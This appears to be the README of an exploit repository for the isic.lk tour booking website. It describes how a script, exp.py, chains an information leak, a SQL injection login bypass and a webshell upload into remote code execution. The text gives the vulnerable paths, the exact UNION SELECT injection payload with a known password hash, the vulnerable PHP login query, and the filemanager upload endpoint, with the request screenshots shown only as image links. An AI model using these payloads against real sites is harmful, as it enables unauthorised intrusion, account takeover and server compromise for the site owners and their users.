 # Usage

```
python exp.py http://localhost/isic
```

![image-20220403222438294](img/image-20220403222438294.png)

# ISIC RCE details

Multiple vulnerabilities in isic.lk tour booking website  (info leak / SQL Injection / file upload  ) lead to RCE. 

First we get website admin username with information disclosure vulnerability, then we use sqli to bypass login, and finally we upload a webshell to target's local system.

## 1.info leak

path: /system/user/modules/mod_users/controller.php

post param: action=view

![image-20220403212351104](img/image-20220403212351104.png)

now we get an account username 'admin'.

## 2.bypass login

we use sql injection to bypass login and make our PHPSESSION (in cookie) work.

path: /system/user/modules/mod_users/controller.php

post param: action=doLogin&username=admin' union select 1,2,3,4,5,6,'0192023a7bbd73250516f069df18b500',8,9 limit 1,1#&password=admin123

![image-20220403212851591](img/image-20220403212851591.png)

tips: in file '/system/user/modules/mod_users/helper.php' you will see the login logic like follow code :

```
      function selectByUsername() {
            $this->MDatabase->select($this->table_name, "*", "username='" . $this->username() . "'", "id DESC");
            return $this->MDatabase->result;
      }
```

and '/system/user/modules/mod_users/controller.php':

![image-20220403213757554](img/image-20220403213757554.png)

 It means we could not bypass login with something like `username=admin' and 1=1 -- - `, but we could use 'union select' to set password's md5 with function 'selectByUsername()' . Now we can bypass login based on the number of fields with 'user' table which we actually know , set the value of 'password' to some string's md5 that we know like 'admin123' , it will return `{"code":"200","msg":"Successfully Logged In. Please Wait..."}`.

## 3.upload webshell

For some reason, you need to make a request with '/system/application/libs/js/tinymce/plugins/filemanager/dialog.php?type=0&editor=mce_0&field_id=selected_file' otherwise the upload will fail. So we send a GET request :

![image-20220403220347982](img/image-20220403220347982.png)

Now upload webshell.

path: /system/application/libs/js/tinymce/plugins/filemanager/upload.php

![image-20220403221057746](img/image-20220403221057746.png)

check for success:

![image-20220403221217670](img/image-20220403221217670.png)
